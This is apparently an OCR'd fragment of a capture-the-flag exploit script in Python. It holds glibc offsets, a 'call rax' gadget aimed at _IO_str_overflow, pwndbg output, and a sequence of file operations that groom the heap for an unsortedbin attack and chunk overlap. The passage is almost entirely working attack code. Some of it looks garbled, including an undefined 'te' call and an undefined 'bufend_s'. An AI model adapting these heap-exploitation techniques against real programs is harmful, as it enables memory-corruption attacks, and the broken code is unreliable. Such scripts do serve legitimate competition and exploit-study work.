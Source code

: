 ```python  
 stderrvtable_s = formula(0xa68 + 0xa0 - 0x8)  
 stdoutmode_s = formula(0xbd0 - 0x8)  
 morecore_s = formula(0x880)  
 stderrbufend_s = formula(0xa68)  
 stderr_s = formula(0x7f17c6744680-0x7f17c6743c40+0x10 - 0x28)  
 stderr60_s = formula(0x7f17c6744680-0x7f17c6743c40+0x10 - 0x28 + 0x60)  
 LSB_IO_str_jmps = 0x7360  
 LSBs_call_rax = 0x03d8            # call rax gadget. to be called @
_IO_str_overflow()  
 '''  
 pwndbg> find /2b 0x7f971f8a0000, 0x7f971f8affff, 0xff,0xd0  
 0x7f971f8a03d8 <systrim+200>  
 0x7f971f8a0657 <ptmalloc_init+631>  
 2 patterns found.  
 '''

 try:  
     mkdir("test1")  
     mkdir("test2")  
     mkdir("test3")  
     mkdir("test4")  
     mkdir("test5")  
     mkdir("test6")  
     # info: test6 is used only for padding!  
     for i in range(5):  
       cd("./test"+str(i+2))  
       for j in range(0xe):  
         touch(str(j+1))  
       cd("../")  
     print("[+] pre-touched chunks")

     cd("./test1")  
     touch("a")  
     touch("k")  
     touch("large")  
     touch("b")  
     touch("c")  
     touch("LARGE")  
     echo("a","A"*0x450)         # for unsortedbin attack  
     echo("k","k"*0x130)         # just for padding  
     echo("large","B"*0x450)  
     echo("b","A"*0x450)         # to overwrite LARGE's size !!!  
     cd("../")  
     rm("./test1/b")  
     rm("./test1/large")  
     cd("test1")  
     echo("c","\r"*0x460)  
     echo("LARGE","L"*0x460)     # to cause error!!!

     touch("hoge")  
     touch("hoge2")  
     te("padding","K"*0x30)      # JUST PADDING

     print("[+] prepared for later attack")

     # prepare for ADV3  part1 in test2 ##########################

     # get overlapped chunk.  
     LSB_A1 = 0xd0              # chunk A's LSB  
     adv3_size1 = bufend_s  
     cd("../test2")  
     echo("1","\r"*(0x50))  
     echo("2","2"*(0x20)) # A  
```
